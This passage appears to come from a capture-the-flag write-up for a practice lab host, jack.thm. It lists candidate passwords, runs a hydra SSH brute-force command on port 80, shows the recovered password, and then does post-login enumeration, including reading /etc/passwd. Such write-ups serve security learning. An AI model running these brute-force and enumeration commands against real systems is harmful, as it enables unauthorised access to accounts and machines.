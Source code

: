 > **SSH Login & Brute Force Phase**
> 

`nano passwords`

```powershell
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
ow5APF>6r,y4krSo
```

`hydra -l jack -P passwords -V -f -e ns -s 80 ssh://jack.thm`

```powershell
[80][ssh] host: jack.thm   login: jack   password: ITMJpGGIqg1jn?>@
```

`ssh jack@jack.thm -p 80`

```powershell
jack@jack.thm's password: ITMJpGGIqg1jn?>@

jack@jack-of-all-trades:~$ whoami
jack
jack@jack-of-all-trades:~$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth),1001(dev)
jack@jack-of-all-trades:~$ pwd
/home/jack

jack@jack-of-all-trades:~$ groups
jack cdrom floppy audio dip video plugdev netdev bluetooth dev

jack@jack-of-all-trades:~$ getent group dev
dev:x:1001:root,jack

jack@jack-of-all-trades:~$ uname -a
Linux jack-of-all-trades 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt9-2 (2015-04-13) x86_64 GNU/Linux
jack@jack-of-all-trades:~$ dpkg --version
Debian `dpkg' package management program version 1.17.25 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.

jack@jack-of-all-trades:~$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
```